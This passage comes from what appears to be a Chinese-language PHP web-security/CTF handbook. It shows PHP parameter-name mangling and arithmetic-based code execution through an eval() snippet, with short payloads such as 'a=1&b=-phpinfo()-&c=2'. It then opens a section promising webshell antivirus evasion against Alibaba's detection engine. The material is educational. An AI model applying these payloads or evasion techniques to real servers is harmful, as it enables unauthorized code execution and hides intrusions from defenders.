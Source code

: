 但其中有特殊情况：GET 或 POST 方式传参时，变量名中的 `[` 会被替换为 `_`，重点是它后面的字符就不会被替换了，那可以构造以下 Payload：

```plain
po[p.er=w_ai_tan_ji
```

#### 8.9.2 PHP 数字可与字符做运算

在 PHP 中，数字是可以和命令进行一些运算的，比如 `1-phpinfo()-2` 是可以成功执行 phpinfo 语句，同样的还有以下运算符：

```plain
+ - * | %
```

那我们不妨看以下代码：

```plain
$a = (String)$_GET['a'];
$b = (String)$_GET['b'];
$c = (String)$_GET['c'];
if(is_numeric($a) && is_numeric($c)){
    echo "$a$b$c = ".$code;
    $code =  eval("return $a$b$c;");
}
```

构造 Payload 如下：

```plain
a=1&b=-phpinfo()-&c=2
```

# 三、Webshell 免杀

## 学习后的免杀效果

学习本手册后，可以达到如下效果，当然这只是拿其中的一个简单的例子进行测试的，感兴趣的可以深入学习并自由组合~

#### 阿里伏魔检测引擎：

[![](assets/1707954023-55fd4e390d13a8d88b41a21835a60087.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144535-2a72ed06-c3f2-1.png)
